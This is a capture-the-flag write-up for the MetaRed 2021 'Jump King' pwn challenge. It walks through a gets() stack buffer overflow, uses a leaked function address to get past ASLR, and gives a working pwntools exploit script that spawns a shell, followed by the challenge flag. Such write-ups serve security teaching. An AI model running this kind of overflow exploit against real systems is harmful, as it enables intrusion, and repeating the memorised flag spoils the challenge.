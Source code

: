 # ## Jump King

**Author:** randN
**Category:** pwn
**Difficulty:** easy

## Description
```
A student developed a jumping game based in a username and password. Can you get the final jump?
```

## Solve
For this challenge a file is provided, **jump_to_win**, and we can spawn an individual docker instance.

![Alt text](https://github.com/uac-ctf/MetaRed2021-5th-Writeups/blob/master/pwn/jump_king/images/file_output.png?raw=true)

We can also use [_checksec_](https://docs.pwntools.com/en/stable/commandline.html?highlight=checksec#pwn-checksec) to see what protections are enabled in the binary.

![Alt text](https://github.com/uac-ctf/MetaRed2021-5th-Writeups/blob/master/pwn/jump_king/images/checksec.png?raw=true)

The ASLR is enabled, which means the addresses are randomized, and can make our file harder.

The file is an ELF, not stripped each will make our life much easier in order to understand how the binary behaves. In order to get more details about it, lets use [Ghidra](https://ghidra-sre.org/), that will decompile the binary.

![Alt text](https://github.com/uac-ctf/MetaRed2021-5th-Writeups/blob/master/pwn/jump_king/images/main.png?raw=true)
![Alt text](https://github.com/uac-ctf/MetaRed2021-5th-Writeups/blob/master/pwn/jump_king/images/jump.png?raw=true)
![Alt text](https://github.com/uac-ctf/MetaRed2021-5th-Writeups/blob/master/pwn/jump_king/images/vuln.png?raw=true)

After running Ghidra we can see now that the binary starts executing the main, then if the **flag** variable is different than 0 it will call the jump function, and if the same variable has a specific value, **0x4155**, the jump function will call vuln that will execute the **/bin/sh** command. The jump function is also leaking the vuln function address, so we don't need to worry about the ASLR.

Both inputs are vulnerable to buffer overflow, because of the [gets](https://linux.die.net/man/3/gets) function, it will read input until it finds a **EOF**, since the variable to where it will write has a defined size, 32, and if we send more that 32 characters we will start writing over stuff in the stack.

First lets try to send an input that will change the flag variable and with that call the jump function. Sending 65 "A"s will change the flag value, but not to the correct one. We can send the hex value after the offset needed, 64, or we can send the characters **UA** that will result in the same value.

Now we can access the second input, we just need to send an offset big enough that will reach the position immediately behind the RBP, and since we have the vuln address we just need to write it after the offset. To discover the offsets needed I used [GEF](https://gef.readthedocs.io/en/master/). Using pwntools a possible solution would be:

```python
# https://docs.pwntools.com/en/stable/
from pwn import *

p = remote('ctf-metared-2021.ua.pt', 25677)

p.recvuntil(b' == Your username: \n')

first_payload = b'A' * 64 + b'UA'
p.sendline(first_payload)

p.recvline()
tmp = p.recvline()
vuln_address = tmp.decode().split(':')[1].strip().replace('\n', '')
second_payload = b'A' * 40 + p64(int(vuln_address, 0))

p.sendline(second_payload)
p.interactive()
p.close()

```


## Flag

CTFUA{Jump1ng_Ar0und_w1Th_aSlR}
